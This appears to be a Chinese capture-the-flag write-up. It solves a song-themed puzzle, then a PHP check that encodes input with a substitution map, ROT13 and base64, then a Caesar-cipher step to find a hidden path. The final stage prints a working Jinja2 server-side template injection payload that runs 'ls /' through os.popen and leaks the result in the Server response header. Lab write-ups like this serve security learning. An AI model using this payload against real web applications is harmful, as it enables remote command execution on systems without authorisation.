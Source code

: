 通过图片得知第一首歌为：有爱就不怕

第二关得到提示“jiushizhjeshouge”，

```php
                <?php
                $charMap = [
                    'a' => 'q', 'b' => 'w', 'c' => 'e', 'd' => 'r', 'e' => 't', 'f' => 'y', 'g' => 'u', 'h' => 'i', 'i' => 'o',
                    'j' => 'p', 'k' => 'a', 'l' => 's', 'm' => 'd', 'n' => 'f', 'o' => 'g', 'p' => 'h', 'q' => 'j', 'r' => 'k',
                    's' => 'l', 't' => 'z', 'u' => 'x', 'v' => 'c', 'w' => 'v', 'x' => 'b', 'y' => 'n', 'z' => 'm'
                ];
                $correctAnswer = '???';
                $mappedAnswer = '';
                for ($i = 0; $i < strlen($correctAnswer); $i++) {
                    $char = $correctAnswer[$i];
                    $mappedAnswer.= $charMap[$char];
                }
                $shiftedAnswer = str_rot13($mappedAnswer);
                $finalCorrectValue = base64_encode($shiftedAnswer);

                $finalCorrectValue = 'ZmJr';

                if (isset($_GET['kaisa'])) {
                    $input = $_GET['kaisa'];
                    $mappedInput = '';
                    for ($i = 0; $i < strlen($input); $i++) {
                        $char = $input[$i];
                        $mappedInput.= $charMap[$char];
                    }
                    $shiftedInput = str_rot13($mappedInput);
                    $encodedInput = base64_encode($shiftedInput);

                    if ($encodedInput === $finalCorrectValue) {
                        echo "kaisa只用在第二关，它能用在哪里？";
                    } else {
                        echo "输入错误，kaisa究竟等于多少呢？";
                    }
                }
                ?>
```

结合“kaisa”考虑为凯撒加密

得到dcombctbymbioay，成功进入`/2she2`

第三关发现为SSTI，对`she`POST参数发现没有回显

最后参考[Jinja2-SSTI通过Server请求头带出命令回显-先知社区](https://xz.aliyun.com/news/15217)，构造payload

```
{{g.pop.__globals__.__builtins__.setattr(g.pop.__globals__.sys.modules.werkzeug.serving.WSGIRequestHandler,"server_version",g.pop.__globals__.__builtins__.__import__('os').popen('ls /').read())}}
```
